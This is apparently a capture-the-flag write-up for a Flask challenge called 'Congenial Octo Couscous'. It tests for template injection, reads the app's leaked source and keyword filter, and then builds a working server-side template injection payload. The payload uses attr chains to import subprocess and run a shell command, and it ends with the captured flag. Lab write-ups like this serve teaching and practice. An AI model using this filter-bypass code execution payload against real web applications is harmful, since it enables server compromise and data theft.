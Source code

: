 # Congenial Octo Couscous

Try filling out the form once -- it returns some of our own input. Sign of XSS or SSTI.  
`<b>1</b>` doesn't do anything, but `{{config}}` does.
```
SERVER_FILEPATH&#39;: &#39;/secretserverfile.py&#39;}&gt;.
```
This line ^^^ in particular looks interesting. Visiting the link `/secretserverfile.py` reveals the source code for the challenge,
which includes some code about filtration.
```javascript
if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
        illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
```     
So it seems like the challenge is to bypass the filter to read the strategy guide.
Given flask is written in python, it would make sense to import a module that can execute commands; althought os is filtered, subprocess is not,
and now the only challenge is figuring out how to import. After a fair bit of googling, it turns out 
```
request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')
```
Can be used to import a module. Combining this with subprocess we get a final payload of:
```javascript
{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('subprocess')|attr('getoutput')('cat strategyguide.txt')}}
```
and reading the file gives us: Best formation that wins every time:  
`DDDDD DLLLD DLHLD DLLLD DDDDD Key: D=Drone L=Landscaper H=HQ Beginning of game strategy`: 
#### tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
